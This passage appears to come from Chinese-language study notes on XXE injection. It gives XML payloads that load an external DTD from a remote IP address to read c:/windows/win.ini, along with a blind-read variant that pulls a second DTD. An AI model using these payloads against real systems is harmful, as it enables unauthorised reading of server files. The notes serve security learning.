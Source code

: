 2、外部引用实体dtd

```
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % file SYSTEM "http://43.142.255.132:1234/evil2.dtd">
    %file;
]>
<user><username>&send;</username><password>Mikasa</password></user>
```

evil2.dtd：

```
<!ENTITY send SYSTEM "file:///c:/windows/win.ini">
```

<img src="图片\Snipaste_2023-02-05_20-14-47.png" alt="Snipaste_2023-02-05_20-14-47"  />

3、无回显读文件

```
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "c:/windows/win.ini">
<!ENTITY % remote SYSTEM "http://127.0.0.1:8081/evil3.dtd">
%remote;
%all;
]>
<root>&send;</root>
```
